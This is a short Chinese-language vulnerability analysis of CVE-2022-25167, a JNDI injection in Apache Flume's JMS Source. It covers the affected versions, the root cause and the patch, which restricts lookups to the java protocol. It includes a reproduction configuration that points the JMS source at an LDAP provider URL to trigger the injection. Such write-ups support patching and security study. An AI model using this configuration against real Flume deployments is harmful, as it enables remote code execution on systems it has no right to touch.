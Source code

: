 # CVE-2022-25167 Apache Flume JNDI注入
## 影响版本
Apache Flume-Apache >=1.4.0&&<=1.9.0
## 环境搭建
http://archive.apache.org/dist/flume/1.9.0/
## 原理分析
### JMS Source
Flume支持JMS Source,其中可以配置JMS的获取来源,其中可以配置JNDI相关参数,同时没用作相关过滤,导致造成JNDI注入.  
[官方文档](https://flume.apache.org/FlumeUserGuide.html#jms-source)  
![](2022-06-21-15-54-59.png)   
[相关源码](https://github.com/apache/flume/blob/trunk/flume-ng-sources/flume-jms-source/src/main/java/org/apache/flume/source/jms/JMSSource.java)
## 漏洞复现
配置文件:  
```
a1.sources = r1
a1.channels = c1
a1.sinks=k1
a1.sources.r1.type = jms
a1.sources.r1.channels = c1
a1.sources.r1.initialContextFactory = com.sun.jndi.ldap.LdapCtxFactory
a1.sources.r1.connectionFactory = p2zlah
a1.sources.r1.providerURL = ldap://127.0.0.1:1389
a1.sources.r1.destinationName = BUSINESS_DATA
a1.sources.r1.destinationType = QUEUE
a1.sinks.k1.type = logger

# Use a channel which buffers events in memory
a1.channels.c1.type = memory
a1.channels.c1.capacity = 1000
a1.channels.c1.transactionCapacity = 100
```  

![](2022-06-21-15-56-07.png)
## 补丁
限制了只能使用java协议  
![](2022-06-21-15-56-42.png)  
https://github.com/apache/flume/commit/dafb26c